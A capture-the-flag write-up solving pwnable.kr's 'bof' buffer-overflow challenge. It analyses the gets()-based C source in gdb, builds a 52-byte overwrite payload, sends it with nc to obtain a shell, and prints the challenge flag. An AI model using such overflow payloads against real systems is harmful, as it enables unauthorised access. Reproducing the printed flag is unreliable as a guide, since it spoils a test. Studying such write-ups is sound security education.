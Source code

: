 ```yaml
---
title: bof
date: 2020-12-25 04:23:32 +/-TTTT
categories: [CTF, pwnable]
tags: [buffer overflow,c,assembly]
---
```


## Analyze

Let's start with source code.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
main function call `func` with argument `0xdeadbeef`.

lets take look at `func()`

```c
char overflowme[32];
``` 
it create `overflowme` variable and asign 32 buffer space.

```c
printf("overflow me : ");
gets(overflowme);
```
next it print "overflow me" and then read value from user.

```
if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
```

it check if `key`  is equal to `0xcafebabe` if yes then it give a shell otherwise it print `Nah..`.

## Exploitation

In this challenge we doesn't need to find offset and create shellcode.
we just need to overwrite `0xdeadbeef` with `0xcafebabe` and we can spawn shell.

lets play with  binary in gdb.

First we set breakpoint at `main`.

```bash
gef➤  break main                                                                                            
Breakpoint 1 at 0x68d                                 
gef➤  run  
```

Now program stop executing at `main`. Lets disassemble `func` and see how it work.

```asm
gef➤  disass func
Dump of assembler code for function func:
   0x5655562c <+0>:     push   ebp
   0x5655562d <+1>:     mov    ebp,esp
   0x5655562f <+3>:     sub    esp,0x48
   0x56555632 <+6>:     mov    eax,gs:0x14
   0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:    xor    eax,eax
   0x5655563d <+17>:    mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:    call   0xf7e3e330 <puts>
   0x56555649 <+29>:    lea    eax,[ebp-0x2c]
   0x5655564c <+32>:    mov    DWORD PTR [esp],eax
   0x5655564f <+35>:    call   0xf7e3d850 <gets>
   0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:    jne    0x5655566b <func+63>
   0x5655565d <+49>:    mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:    call   0xf7e12f10 <system>
   0x56555669 <+61>:    jmp    0x56555677 <func+75>
   0x5655566b <+63>:    mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:    call   0xf7e3e330 <puts>
   0x56555677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:    je     0x56555688 <func+92>
   0x56555683 <+87>:    call   0xf7ee1930 <__stack_chk_fail>
   0x56555688 <+92>:    leave  
   0x56555689 <+93>:    ret    
End of assembler dump.

```

on `0x56555654` we can see it compare `0xcafebabe` with `func` argument which is `0xdeadbeef`.

we set breakpoint exactly `0x56555654`.

Set breakpoint and continue executation.it ask for input. we provide `bbbbbbbbbbbbbbb`. here we need to provide short input because we don't want to crash the program. we just want to see normal executation flow of program.

```bash
gef➤  break *0x56555654
Breakpoint 2 at 0x56555654
gef➤  c
Continuing.
overflow me : 
bbbbbbbbbbbbbbb 
```

program hit our second breakpoint. now lets examine the memory.

```asm
gef➤  x/50wx $esp
0xffffd590:     0xffffd5ac      0x00000000      0xf7ffd000      0x00000000
0xffffd5a0:     0x00000000      0x00000000      0x56555034      0x62626262
0xffffd5b0:     0x62626262      0x62626262      0x00626262      0x5655549d
0xffffd5c0:     0xf7fb33fc      0xffffffff      0x56556ff4      0x2afbe700
0xffffd5d0:     0x56556ff4      0xf7fb3000      0xffffd5f8      0x5655569f
0xffffd5e0:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
0xffffd5f0:     0xf7fb3000      0xf7fb3000      0x00000000      0xf7decdf6
0xffffd600:     0x00000001      0xffffd6a4      0xffffd6ac      0xffffd634
0xffffd610:     0xffffd644      0xf7ffdb40      0xf7fcd410      0xf7fb3000
0xffffd620:     0x00000001      0x00000000      0xffffd688      0x00000000
0xffffd630:     0xf7ffd000      0x00000000      0xf7fb3000      0xf7fb3000
0xffffd640:     0x00000000      0xa4e739cb      0xe6d067db      0x00000000
0xffffd650:     0x00000000      0x00000000
```

here we can see our input we give `b` as `0x62`. and at `0xffffd5e0` memory address `0xdeadbeef`. 

Next we have to find out how many bytes we need to overwrite `0xdeadbeef`. here we need 13\*4=52 byets to overwrite `0xdeadbeef`. now we can build our payload.

```python
python -c 'print "a" * 52 + "\xbe\xba\xfe\xca" ' > exploit
```
we save our payload as `exploit` and send this to server.

```bash
➜  temp (cat exploit && cat) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
cat flag
daddy, I just pwned a buFFer :)
```
